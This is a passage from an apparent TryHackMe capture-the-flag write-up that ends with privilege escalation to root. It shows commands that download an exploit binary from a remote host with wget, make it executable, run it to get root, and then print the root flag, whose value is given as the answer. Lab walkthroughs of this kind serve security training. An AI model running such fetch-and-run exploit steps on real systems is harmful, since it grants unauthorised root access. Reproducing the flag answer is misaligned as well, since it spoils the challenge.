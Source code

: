 No answer

#### Run the exploit, get root.
    

On the SSH of James :

```console
cd /tmp  
wget 10.10.127.246:8888/exploit  
chmod +x exploit  
./exploit  
id  
uid=0(root)
```

No Answer

#### What is the root flag?
    
```console
cat /root/root.txt  
thm{af55ada6c2445446eb0606b5a2d3a4d2}
```

Answer : thm{af55ada6c2445446eb0606b5a2d3a4d2}

[test]:      http://jekyllrb.com